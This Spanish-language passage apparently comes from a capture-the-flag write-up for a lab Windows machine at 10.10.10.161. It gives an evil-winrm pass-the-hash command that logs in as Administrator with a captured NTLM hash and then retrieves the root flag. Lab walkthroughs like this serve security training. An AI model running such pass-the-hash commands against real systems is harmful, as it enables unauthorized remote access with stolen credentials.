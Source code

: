 Pwn3d!, por lo que podemos utilizar evil-winrm.

``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``

![Pasted image 20250313161907](https://github.com/user-attachments/assets/c68e5a25-7f45-461b-8d64-581634adcac7)


Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt

![Pasted image 20250313162055](https://github.com/user-attachments/assets/2280f8a3-2bcd-4c19-9dbd-2f5cbab2afa4)


